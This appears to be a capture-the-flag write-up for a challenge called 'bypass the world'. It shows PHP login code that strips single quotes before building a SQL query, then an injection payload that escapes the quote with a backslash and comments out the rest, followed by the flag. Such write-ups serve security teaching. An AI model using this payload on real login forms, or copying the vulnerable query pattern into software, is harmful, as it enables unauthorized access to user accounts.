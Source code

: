 ## bypass the world  

### The Problem:

> I Don't Care if the world is against you, but i believe that you can bypass the world  (http://35.197.254.240/bypassworld/)

### The Solution:

- Using the hint, it seems some lousy filter is replacing/deleting the single quote char inserted by user. The Challenge would be escaping the single quotes written in the original code.  
```
$name = preg_replace('/\'/', '', $name);
$pass = preg_replace('/\'/', '', $pass);

$query = "SELECT * FROM users where name = '$name' and password = '$pass'"
```
- Username field `blabla\`, password field `or 1 = 1; -- `

`$query = "SELECT * FROM users where name = 'blabla\' and password = 'or 1 = 1; -- $pass'"`

- Note: the space after the double dash is essential for MySQL!
  
  > The double dash-comment style requires at least whitespace or control character (space, tab, newline, etc) after the second dash. Note that standard SQL does not require a whitespace after the second dash. MySQL uses a whitespace to avoid the problems with some SQL construct... etc.


### The flag: 
`FLAG{Y0u_Ar3_S0_C00L_T0d4y}`

### Notes:
- CWE-89.
- OWASP top 10 `A1-Injection`.



